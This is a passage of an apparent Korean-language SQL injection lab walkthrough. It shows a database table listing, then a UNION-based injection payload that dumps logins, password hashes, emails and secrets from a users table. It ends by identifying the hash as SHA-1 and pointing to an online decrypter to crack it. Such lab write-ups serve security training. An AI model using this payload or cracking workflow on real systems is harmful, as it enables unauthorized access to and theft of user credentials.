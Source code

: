 ```bash
| shortcut_set                          | 
| shortcut_set_users                    | 
| system                                | 
| taxonomy_index                        | 
| taxonomy_term_data                    | 
| taxonomy_term_hierarchy               | 
| taxonomy_vocabulary                   | 
| url_alias                             | 
| users                                 | 
| users_roles                           | 
| variable                              | 
| watchdog                              | 
| columns_priv                          | 
| db                                    | 
| func                                  | 
| help_category                         | 
| help_keyword                          | 
| help_relation                         | 
| help_topic                            | 
| host                                  | 
| proc                                  | 
| procs_priv                            | 
| tables_priv                           | 
| time_zone                             | 
| time_zone_leap_second                 | 
| time_zone_name                        | 
| time_zone_transition                  | 
| time_zone_transition_type             | 
| user                                  | 
| testtable1                            | 
| uniontb                               | 
+---------------------------------------+
114 rows in set (0.14 sec)
```

### 5. 민감한 정보 조회하기

* `concat`: 문자열을 합치는 함수
* `0'union select 1,concat(id,login),password,email,secret,6,7 from users #`

![image](https://user-images.githubusercontent.com/28076542/51787565-106fb980-21b7-11e9-8209-bb30875ecd39.png)

* 2bee가 패스워드에 해당 --> 해시화 되어 있음
* `6885858486f31043e5839c735d99457f045affd0`

### 6. 칼리리눅스에서 어떤 해시를 사용하는지 확인하기

![image](https://user-images.githubusercontent.com/28076542/51787617-6fcdc980-21b7-11e9-9391-820ac01e863d.png)

* SHA-1을 사용하고 있음
* [웹 SHA1 Descrypter](https://hashkiller.co.uk/sha1-decrypter.aspx)를 활용하여 decode

